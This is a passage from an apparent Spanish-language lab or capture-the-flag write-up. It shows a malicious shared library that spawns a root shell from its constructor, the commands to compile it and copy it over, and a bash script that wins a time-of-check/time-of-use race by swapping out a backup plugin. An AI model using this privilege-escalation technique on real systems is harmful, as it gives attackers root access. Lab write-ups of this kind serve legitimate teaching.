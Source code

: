 ```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void inject()__attribute__((constructor));

void inject()
{
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```

Compilamos el código fuente para obtener una librería compartida maliciosa denominada `backup_plugin_bad.so`.

```bash
gcc -shared -fPIC -o backup_plugin_bad.so backup_plugin.c  
```

A continuación, transferimos la librería maliciosa al servidor víctima. Desde la máquina atacante, ubicados en el directorio donde se compiló la librería, ejecutamos:

```bash
scp backup_plugin_bad.so tocu@slywindow.nyx:/opt/backup
```

De forma paralela, en el servidor, desarrollamos un script en bash que automatiza el reemplazo de la librería legítima por la versión maliciosa en el instante preciso para maximizar la probabilidad de éxito del ataque.

```bash
#!/usr/bin/env bash
# toctou.sh

DIR="/opt/backup"
ORIG="$DIR/backup_plugin.so"
BAD="$DIR/backup_plugin_bad.so"
OK="$DIR/backup_plugin_ok.so"

# Espera al PRIMER cierre (lectura o escritura) y termina
inotifywait -qq -e close_write -e close_nowrite "$ORIG"

# Renombra lo más rápido posible (dos syscalls rename(2) atómicas)
mv "$ORIG" "$OK"    # guarda la copia buena
mv "$BAD"  "$ORIG"  # coloca la versión _bad en su lugar
```

Se deben abrir dos terminales como el usuario tocu en el servidor. En la primera, se otorgan permisos de ejecución al script `toctou.sh` y se procede a ejecutarlo.

```bash
chmod +x ./toctou.sh 
./toctou.sh 
```

